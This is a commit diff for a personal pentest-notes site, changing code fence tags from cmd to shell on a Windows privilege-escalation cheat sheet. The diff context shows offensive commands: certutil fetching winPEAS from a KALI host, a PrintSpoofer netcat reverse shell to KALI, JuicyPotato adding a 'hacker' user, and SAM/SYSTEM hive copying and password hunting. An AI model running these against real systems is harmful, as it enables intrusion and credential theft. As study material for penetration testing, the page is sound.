

Before and after one commit to juliohenkes/juliohenkes.github.io, a Jekyll site: the page built from cyber/pentest/windows-privesc.md, in a window 1280 px wide and 1400 px high, scrolled down 2943 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
fix code block syntax: replace cmd with shell for proper comment highlighting

````diff
--- a/cyber/pentest/windows-privesc.md
+++ b/cyber/pentest/windows-privesc.md
@@ -10,7 +10,7 @@ Windows privilege escalation is the process of moving from a low-privilege user
 
 The first commands after landing a shell:
 
-```cmd
+```shell
 whoami
 whoami /priv
 whoami /groups
@@ -33,7 +33,7 @@ Get-LocalGroupMember Administrators
 
 The most comprehensive Windows privilege escalation enumeration tool:
 
-```cmd
+```shell
 # Download and run (requires internet or pre-stage)
 certutil -urlcache -f http://KALI/winpeas.exe C:\Windows\Temp\winpeas.exe
 C:\Windows\Temp\winpeas.exe
@@ -66,7 +66,7 @@ Invoke-AllChecks
 
 ### Seatbelt
 
-```cmd
+```shell
 Seatbelt.exe all
 Seatbelt.exe -group=system
 Seatbelt.exe -group=user
@@ -79,7 +79,7 @@ Seatbelt.exe DotNet Osinfo PowerShell
 
 If a service binary path contains spaces and is unquoted, Windows looks for the executable in each path segment:
 
-```cmd
+```shell
 # Find unquoted service paths
 wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "C:\Windows" | findstr /i /v """
 
@@ -104,7 +104,7 @@ sc start vulnsvc
 
 ### Insecure Service Permissions
 
-```cmd
+```shell
 # Check service DACL
 accesschk.exe -ucqv <service_name> -accepteula
 sc sdshow <service_name>
@@ -120,7 +120,7 @@ sc config <service_name> binPath= "C:\Windows\Temp\shell.exe"
 
 ### Insecure Service Binary Permissions
 
-```cmd
+```shell
 # Check if we can replace the service binary
 icacls "C:\path\to\service.exe"
 
@@ -134,7 +134,7 @@ sc start <service_name>
 
 If a service or application loads a DLL that doesn't exist, you can place your own:
 
-```cmd
+```shell
 # Use Process Monitor (Procmon) to find missing DLLs
 # Filter: Process Name is service.exe, Result is NAME NOT FOUND, Path ends with .dll
 
@@ -152,7 +152,7 @@ copy missing.dll "C:\writable\path\missing.dll"
 
 If both HKCU and HKLM AlwaysInstallElevated are 1, any user can install MSI packages as SYSTEM:
 
-```cmd
+```shell
 # Check registry values
 reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
 reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
@@ -164,7 +164,7 @@ msiexec /quiet /qn /i shell.msi
 
 ### Autorun Registry Keys
 
-```cmd
+```shell
 reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
 reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
 reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
@@ -176,7 +176,7 @@ icacls "<path_from_registry>"
 
 ### Registry Stored Credentials
 
-```cmd
+```shell
 # Autologon credentials
 reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
 
@@ -197,14 +197,14 @@ reg query HKLM\SYSTEM\CurrentControlSet\Services\SNMP /s
 
 These privileges allow a user to impersonate another user's token — commonly present in service accounts:
 
-```cmd
+```shell
 whoami /priv
 # Look for: SeImpersonatePrivilege, SeAssignPrimaryTokenPrivilege
 ```
 
 Exploit with Potato attacks:
 
-```cmd
+```shell
 # PrintSpoofer (Windows 10, Server 2019)
 PrintSpoofer.exe -i -c cmd
 PrintSpoofer.exe -c "nc.exe KALI 4444 -e cmd"
@@ -224,7 +224,7 @@ JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user hacker Pa
 
 Allows reading any file:
 
-```cmd
+```shell
 # Check privilege
 whoami /priv
 
@@ -238,7 +238,7 @@ robocopy /b C:\shadow\Windows\System32\config\ C:\temp\ SAM SYSTEM
 
 Check the OS and patch level:
 
-```cmd
+```shell
 systeminfo
 # Look for: OS Version, Hotfix(es) installed
 
@@ -251,7 +251,7 @@ systeminfo
 
 ### HiveNightmare (CVE-2021-36934)
 
-```cmd
+```shell
 # Check if vulnerable
 icacls C:\Windows\System32\config\SAM
 # If BUILTIN\Users has read — vulnerable
@@ -266,7 +266,7 @@ copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\sec
 
 ## Password Hunting
 
-```cmd
+```shell
 # Search files for passwords
 findstr /si "password" *.txt *.xml *.ini *.config 2>nul
 findstr /si "password" C:\*.txt 2>nul
@@ -286,7 +286,7 @@ type C:\inetpub\wwwroot\web.config
 
 ## Scheduled Tasks
 
-```cmd
+```shell
 schtasks /query /fo LIST /v
 # Look for tasks running as SYSTEM with writable binary/script paths
 
@@ -299,7 +299,7 @@ icacls <binary_path>
 
 ## Credential Manager / DPAPI
 
-```cmd
+```shell
 # List stored credentials
 cmdkey /list
 vaultcmd /list
````
Also changed, not shown: cyber/pentest/ad-authentication.md (+6 -6 lines), cyber/pentest/ad-enumeration.md (+1 -1 lines), cyber/pentest/ad-lateral-movement.md (+3 -3 lines), cyber/pentest/tunneling.md (+3 -3 lines).
